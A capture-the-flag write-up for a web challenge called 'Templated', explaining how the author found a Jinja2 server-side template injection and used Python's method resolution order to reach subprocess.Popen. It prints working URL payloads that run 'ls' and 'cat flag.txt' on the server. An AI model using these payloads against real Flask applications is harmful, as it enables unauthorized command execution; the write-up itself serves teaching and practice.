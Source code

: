 # Templated
In this web challenge, we are given a website and expected to find the flag by exploiting a simple mistake.

![0](0.png)

# TL;DR
- The website lets user to provide a Jinja template from parameters. With this vulnerability (Server side template injection, or SSTI), we can acquire the flag [1].
- To get the flag, you need to know about `Python's Method Resolution Order (MRO)`.


# How to get the flag?
When the challenge instance is launched, I got a website that says it is under construction. We can see that it is powered by `Flask/Jinja2`. Perhaps it is running python?
![1](1.png)

When I check the returned Request and Response headers, we can clearly say that the server is running `Werkzeug/1.0.1, Python 3.9.0`. I started to google about Werkzeug/1.0.1 vulnerabilities. But, I was only be able to find out vulnerabilities in older versions of Werkzeug [2].
![2](2.png)

I attempted to use some enumeration tools, such as `nikto`, `gobuster`, to scan vulnerabilities and existing directories, but I did not get anything, as the website was returning 200 response to every request.

Next, I googled about `Flask/Jinja2` vulnerabilities. A few matches from top results led me to find out a possibility of Server Side Template Injection vulnerability in Jinja2 [1]. In [1] the vulnerability example was based on a parameter. Because, I could not get any result from enumeration tools, I just tried to pass a simple jinja2 template, `{{1}}`, to the index url of the challenge.

Do you see what just happened? User provided jinja template is processed by the server, just like the exploit description from [1]. Okay but, can I execute some commands and get get the flag?
![3](3.png)

I immediately entered some bash commands to the url, like `{{ls}}`. Ofcourse, it did not work. Because, the process is running python interpreter. I went back again to carefully read the exploit description and the concepts about Python's method resolution order. Here are some references to better understand this [3,4]. The important part for me was that given a class I could use `mro` to get any class or modules from <class 'object'>.

I executed the following URLs until I got python modules like `os` or `subprocess`:
- integer class: `/{{ 1.__class__ }}`
- base classes of integer class `/{{ 1.__class__.__mro__}}`
- object class `/{{ 1.__class__.__mro__[1]}}`
- pointer to the method of object class's subclasses `/{{ 1.__class__.__mro__[1].__subclasses__ }}`
- List of subclasses (here I saw `subprocess.Popen`)  `/{{ 1.__class__.__mro__[1].__subclasses__() }}`
- Subprocess class (I found subprocess class's index by trial and error): `/{{ 1.__class__.__mro__[1].__subclasses__()[414] }}`
- Execute ls to find where is flag (it was in current working directory, *flag.txt*): `/{{ 1.__class__.__mro__[1].__subclasses__()[414]('ls',shell=True, stdout=-1).communicate()[0] }}`

Finally, to get the flag I sent a request with the following jinja template:
```
http://URL/{{ 1.__class__.__mro__[1].__subclasses__()[414]('cat flag.txt',shell=True, stdout=-1).communicate()[0] }}
```
And we got the flag.
![4](4.png)

# References
- [1] Jinja2 2.10 - 'from_string' Server Side Template Injection
[https://www.exploit-db.com/exploits/46386](https://www.exploit-db.com/exploits/46386)
- [2] [werkzeug vulnerabilities](https://snyk.io/vuln/pip:werkzeug)
- [3] [https://www.python.org/download/releases/2.3/mro/](https://www.python.org/download/releases/2.3/mro/)
- [4] [https://www.geeksforgeeks.org/method-resolution-order-in-python-inheritance/](https://www.geeksforgeeks.org/method-resolution-order-in-python-inheritance/)